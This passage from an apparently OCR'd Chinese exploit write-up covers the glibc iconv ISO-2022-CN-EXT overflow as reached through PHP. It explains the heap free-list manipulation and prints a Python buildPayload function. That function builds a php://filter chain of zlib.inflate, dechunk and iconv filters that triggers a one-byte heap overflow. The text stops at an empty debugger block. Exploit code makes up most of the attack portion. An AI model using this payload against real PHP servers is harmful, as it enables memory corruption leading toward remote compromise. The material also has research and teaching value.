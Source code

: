 1. 把这两个堆释放，这个时候free链表为：0x7ffff5288200->0x300->0x100->0x400...  
  
1. 触发漏洞，这个时候0x7ffff5288200  
会被用来存放iconv  
的结果，所以能溢出1字节覆盖到了0x7ffff5288300  
地址的第一字节，这个时候free链表变为了：0x7ffff5288300->0x148->...  
。  
  
1. 由于触发漏洞时，iconv返回-1，所以0x7ffff5288200  
堆在溢出后会被释放，这个时候free  
链表为：0x7ffff5288200->0x300->0x148...  
。  
  
根据上面的步骤，来编写buildPayload  
函数，代码如下所示：  
```
def buildPayload() -> str:    '''    我们把一次处理dechunk + convert.iconv.的过程算一步    '''    heapSize = 0x100    BUG = "劄".encode("utf-8")    # 第一步申请0x100的堆，第二步释放    step1_malloc_step2_free = b"A" * 0x10    # 第三次dechunk，长度小于0x100    step1_malloc_step2_free = chunked_chunk(step1_malloc_step2_free)    # 第二次dechunk，长度小于0x100    step1_malloc_step2_free = chunked_chunk(step1_malloc_step2_free, heapSize)    # 第一次dechunk，长度等于0x100    step1_malloc_step2_free = compressed_bucket(step1_malloc_step2_free)    # 第二步申请0x100的堆，第三步释放    step2_malloc_step3_free = b"B" * 0x20    # 第三次dechunk，长度小于0x100    step2_malloc_step3_free = chunked_chunk(step2_malloc_step3_free, heapSize)    # 第二次dechunk，长度等于0x100    step2_malloc_step3_free = chunked_chunk(step2_malloc_step3_free)    # 第一次dechunk，长度大于0x100    step2_malloc_step3_free = compressed_bucket(step2_malloc_step3_free)    # 第三步触发bug    step3_trigger_bug = (0x100 - len(BUG)) * b"\x00" + BUG    # 确保长度为0x100    assert len(step3_trigger_bug) == 0x100    # 第三次dechunk，长度等于0x100    step3_trigger_bug = chunked_chunk(step3_trigger_bug)    # 第二次dechunk，长度大于0x100    step3_trigger_bug = chunked_chunk(step3_trigger_bug)    # 第一次dechunk，长度大于0x100    step3_trigger_bug = compressed_bucket(step3_trigger_bug)    pages = (        step1_malloc_step2_free * 3 +        step2_malloc_step3_free * 2 +        step3_trigger_bug    )    resource = compress(pages)    resource = base64.b64encode(resource)    resource = f"data:text/plain;base64,{resource.decode()}"    filters = [        # zlib解压缩        "zlib.inflate",        # 第一步        "dechunk",        "convert.iconv.latin1.latin1",        # 第二步        "dechunk",        "convert.iconv.latin1.latin1",        # 第三步触发漏洞        "dechunk",        "convert.iconv.UTF-8.ISO-2022-CN-EXT"    ]    filters = "|".join(filters)    path = f"php://filter/read={filters}/resource={resource}"    return path
```  
  
接着使用gdb调试查看堆布局，如下所示：  
```
```